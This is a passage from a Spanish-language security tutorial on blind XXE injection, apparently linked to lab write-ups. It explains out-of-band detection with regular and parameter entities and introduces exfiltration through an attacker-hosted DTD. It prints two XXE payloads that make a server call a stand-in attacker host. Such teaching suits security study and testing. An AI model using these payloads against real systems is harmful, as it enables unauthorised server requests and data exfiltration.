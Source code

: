 A menudo podemos `detectar` un `blind XXE` usando la misma `técnica` que para los `ataques XXE SSRF`, pero `realizando` la `interacción OOB` hacia un `servidor que controlamos`. Por ejemplo, podemos definir una `entidad externa` de la siguiente manera:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Posteriormente, usaremos la `entidad definida` en un `valor de un elemento XML`

Este `ataque XXE` provoca que el `servidor` realice una `petición HTTP de back-end` a la `URL especificada`. El `atacante` puede `monitorizar` la `consulta DNS resultante` y la `petición HTTP`, y de esta manera `detectar` si el `ataque XXE` fue `exitoso`

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Blind XXE with out-of-band interaction - [https://justice-reaper.github.io/posts/XXE-Injection-Lab-3/](https://justice-reaper.github.io/posts/XXE-Injection-Lab-3/)

A veces, los `ataques XXE` que usan `entidades regulares` son `bloqueados`, debido a alguna `validación del input` realizada por la `aplicación` o a algún filtrado del `parser XML` que se esté utilizando. En esta situación, podemos usar `entidades de parámetro` en su lugar

Las `entidades de parámetro` son un `tipo especial de entidad XML` que solo puede ser `referenciada dentro del DTD`. Para nuestro caso, solo debemos saber que a `declaración` de una `entidad de parámetro` incluye el `carácter %` antes del `nombre de la entidad`

```
<!ENTITY % myparameterentity "my parameter entity value" >
```

Y que las `entidades de parámetro` se `referencian` usando el `carácter %` en lugar del `ampersand (&)` habitual

```
%myparameterentity;
```

Esto significa que podemos `probar blind XXE` usando `detección OOB` a través de `entidades de parámetro XML`, de la siguiente manera:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Este `payload XXE` declara una `entidad de parámetro XML` llamada `xxe` y luego `usa la entidad dentro del DTD`. Esto provocará una `consulta DNS` y una `petición HTTP` al `dominio del atacante`, verificando que el `ataque` fue `exitoso`

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Blind XXE with out-of-band interaction via XML parameter entities - [https://justice-reaper.github.io/posts/XXE-Injection-Lab-4/](https://justice-reaper.github.io/posts/XXE-Injection-Lab-4/)

#### Explotar un blind XXE exfiltrando datos con interacciones OBB (out-of-band)

`Detectar` un `blind XXE` mediante `técnicas OBB (out-of-band)` está muy bien, pero en realidad no demuestra cómo la `vulnerabilidad` podría ser `explotada`. Lo que un `atacante` realmente quiere lograr es `exfiltrar datos sensibles`. Esto puede lograrse explotando un `blind XXE`, pero implica que el `atacante` aloje un `DTD malicioso` en un `sistema que controla` y luego `invoque el DTD externo` desde dentro del `payload`
